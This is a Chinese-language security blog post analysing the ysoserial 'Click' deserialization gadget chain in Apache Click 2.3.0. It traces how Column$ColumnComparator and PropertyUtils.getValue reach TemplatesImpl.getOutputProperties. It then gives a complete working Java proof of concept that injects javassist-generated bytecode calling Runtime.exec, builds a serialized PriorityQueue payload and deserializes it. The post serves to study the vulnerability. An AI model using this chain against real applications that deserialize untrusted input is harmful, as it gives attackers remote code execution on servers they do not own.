

前言
Apache Click 是一个 JEE Web 框架
使用它需要导入依赖
//pom.xml
<dependencies>
<dependency>
<groupId>org.apache.click</groupId>
<artifactId>click-nodeps</artifactId>
<version>2.3.0</version>
</dependency>
</dependencies>分析
PropertyUtils
这是Click中的一个工具类，在org.apache.click.util.PropertyUtils，这个类是用来操作属性，其中有一个getValue方法
通过传入Object类型的参数source和String类型的参数name，来获取某个对象中某个属性的值，如果这个对象是Map类型的，就会直接调用他的get方法获取值，如果不是，就会调用getObjectPropertyValue方法，跟进
首先调用了Cachekey方法检查source/property参数的有效性，之后查找cache缓存中是否有着需要的方法名，如果没有就会通过传入的需要获取的属性名，来获取他的getter方法，并且将它添加进入cache中
ClickUtils.toGetterName：
最后通过反射来调用这个getter方法，达到了获取对应属性值的目的
所以这里就可以触发TemplatesImpl链中的getOutputProperties方法
ColumnComparator
这是org.apache.click.control.Column的一个内部类，实现了Comparator接口，用来比较同一个column中的row值

在compare方法中，会调用this.column.getProperty方法，跟进getProperty
如果row不是一个Map对象，就会调用PropertyUtils.getValue方法
构造POC
package ysoserial.vulndemo;
/**
* java.util.PriorityQueue.readObject()
* java.util.PriorityQueue.heapify()
* java.util.PriorityQueue.siftDown()
* java.util.PriorityQueue.siftDownUsingComparator()
* org.apache.click.control.Column$ColumnComparator.compare()
* org.apache.click.control.Column.getProperty()
* org.apache.click.control.Column.getProperty()
* org.apache.click.util.PropertyUtils.getValue()
* org.apache.click.util.PropertyUtils.getObjectPropertyValue()
* java.lang.reflect.Method.invoke()
* com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl.getOutputProperties()
*/
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.click.control.Column;
import org.apache.click.control.Table;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.Comparator;
import java.util.PriorityQueue;
public class Click_POC {
public static String serialize(Object obj) throws Exception{
ByteArrayOutputStream barr = new ByteArrayOutputStream();
ObjectOutputStream outputStream = new ObjectOutputStream(barr);
outputStream.writeObject(obj);
byte[] bytes = barr.toByteArray();
barr.close();
return Base64.getEncoder().encodeToString(bytes);
}
public static void unserialize(String base64) throws Exception{
byte[] decode = Base64.getDecoder().decode(base64);
ByteArrayInputStream barr = new ByteArrayInputStream(decode);
ObjectInputStream inputStream = new ObjectInputStream(barr);
inputStream.readObject();
}
public static byte[][] evilBytecodes() throws Exception{
//通过javassist生成恶意bytecodes
//cmd命令
String cmd = "java.lang.Runtime.getRuntime().exec(\"calc\");";
ClassPool classPool = ClassPool.getDefault();
//创建一个类
CtClass ctClass = classPool.makeClass("ClickClass");
//添加AbstractTranslet为父类
ctClass.setSuperclass(classPool.get(AbstractTranslet.class.getName()));
//添加命令
ctClass.makeClassInitializer().insertBefore(cmd);
//转为byte
byte[] bytes = ctClass.toBytecode();
return new byte[][]{bytes};
}
//反射赋值
public static void setFieldValue(Object obj, String fieldname, Object value) throws NoSuchFieldException, IllegalAccessException {
Field field = obj.getClass().getDeclaredField(fieldname);
field.setAccessible(true);
field.set(obj, value);
}
public static void main(String[] args) throws Exception{
TemplatesImpl templates = new TemplatesImpl();
setFieldValue(templates, "_name", "RoboTerh");
setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());
setFieldValue(templates, "_bytecodes", evilBytecodes());
//反射创建comparator
Class<?> aClass = Class.forName("org.apache.click.control.Column$ColumnComparator");
Constructor<?> constructor = aClass.getDeclaredConstructor(Column.class);
constructor.setAccessible(true);
Column column = new Column("outputProperties");
//为了避免比较的空指针，设置一个Table属性
column.setTable(new Table());
Comparator comparator = (Comparator) constructor.newInstance(column);
//创建PriorityQueue对象
PriorityQueue priorityQueue = new PriorityQueue(2);
priorityQueue.add(1);
priorityQueue.add(1);
//反射将TemplatesImpl放入priorityQueue中
setFieldValue(priorityQueue, "queue", new Object[]{templates, templates});
//反射将comparator放入,不能直接传入不然会报错误
setFieldValue(priorityQueue, "comparator", comparator);
String s = serialize(priorityQueue);
System.out.println(s);
unserialize(s);
}
}参考
Java 反序列化漏洞（五） - ROME/BeanShell/C3P0/Clojure/Click/Vaadin | 素十八 (su18.org)
Learning_summary/Java安全学习—Click链.md at main · H3rmesk1t/Learning_summary (github.com)


- Post link: https://roboterh.github.io/2022/04/21/ysoserial%E5%88%86%E6%9E%90%E4%B9%8BClick%E9%93%BE/
- Copyright Notice: All articles in this blog are licensed under unless otherwise stated.